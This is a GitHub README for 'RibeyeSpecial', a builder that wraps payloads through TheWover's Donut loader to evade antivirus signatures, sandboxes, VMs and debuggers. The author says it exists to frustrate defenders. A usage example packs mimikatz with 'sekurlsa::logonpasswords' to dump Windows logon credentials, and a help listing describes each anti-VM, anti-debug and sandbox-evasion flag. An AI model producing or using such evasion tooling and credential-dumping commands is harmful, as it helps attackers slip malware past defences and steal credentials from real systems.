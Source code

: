 # RibeyeSpecial
medium-rare
## Purpose
To be a builder that can generate undetected payload on the fly with codes that can be modified to avoid signature detection. Comes with a ton of features that is meant solely to make the blue team life harder as well as make reverse life miserable. 

A loader builder for TheWover's Donut Project. Will support all sort of stuff and have more features as time goes on!
https://twitter.com/specialhoang

https://twitter.com/tomahawkapt69 (At least I remember to clout the group unlike a certain coconut https://twitter.com/nixbyte/status/1189288814465998848)

## Install
1. Download latest https://github.com/apt69/RibeyeSpecial/releases
2. Make sure RibeyeSpecial.exe, RibeyeBone64.exe, and RibeyeBone32.exe are in the same folder

## Usage
### Example
```
C:\Users\APT69\Desktop>RibeyeSpecial.exe -f mimikatz.exe -o test.exe -p -s -t 6000 -g "sekurlsa::logonpasswords"
```
```
C:\Users\APT69\Desktop>RibeyeSpecial.exe -h

USAGE:

   RibeyeSpecial.exe  [-c] [-r] [-d] [-a] [-m] [-p] [-s] [-v] [-e] [-g
                      <string>] [-t <integer>] -o <string> -f <string> [--]
                      [--version] [-h]


Where:

   -c,  --core
     Check CPU core count, anti VM

   -r,  --ram
     Check RAM size, anti VM

   -d,  --debugger
     Check if we are being debugged, anti debug

   -a,  --accel
     Check if sleep is being accelerated, evade sandbox

   -m,  --mouse
     Check mouse movement, evade sandbox

   -p,  --prime
     Prime calculation to evade sandbox

   -s,  --sleep
     Sleep to evade sandbox

   -v,  --vm
     Detect VM using CPUID

   -e,  --all
     Enable all checks with default values

   -g <string>,  --param <string>
     Parameter to pass to payload

   -t <integer>,  --sleeptime <integer>
     How long to sleep for (in ms) if -s is enabled

   -o <string>,  --output <string>
     (required)  Output file name

   -f <string>,  --file <string>
     (required)  Path to file to execute

   --,  --ignore_rest
     Ignores the rest of the labeled arguments following this flag.

   --version
     Displays version information and exits.

   -h,  --help
     Displays usage information and exits.


   Shoutout to APT69 and the brothers that are in it.
   https://twitter.com/TomahawkApt69
```
